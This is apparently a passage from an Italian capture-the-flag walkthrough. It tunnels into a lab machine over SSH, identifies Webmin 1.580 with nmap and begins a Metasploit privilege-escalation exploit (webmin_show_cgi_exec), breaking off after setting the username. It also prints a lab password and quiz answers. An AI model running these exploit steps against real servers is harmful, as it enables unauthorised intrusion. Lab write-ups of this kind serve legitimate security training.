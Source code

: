 ```
ssh -L 10000:127.0.0.1:10000 agent47@10.10.24.247
```
	videogamer124
Una volta completato, digita "localhost:10000" nel tuo browser e potrai accedere al server web appena visualizzato.

```
http://localhost:10000/
```

Qual è il nome del CMS esposto?

```
Invia
```

Qual è la versione del CMS?

possiamo vederlo con nmap
```
nmap -sV -p 10000 127.0.0.1
```

e anche loggandoci 
```
http://localhost:10000/
```

```
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)
```

```
Webmin
```
Qual è la versione del CMS?
```
1.580
```

#### Privilege Escalation with Metasploit

```
msfconsole
```

```
search Webmin
```

```
use exploit/unix/webapp/webmin_show_cgi_exec
```

```
show options
```

```
set USERNAME agent47
```
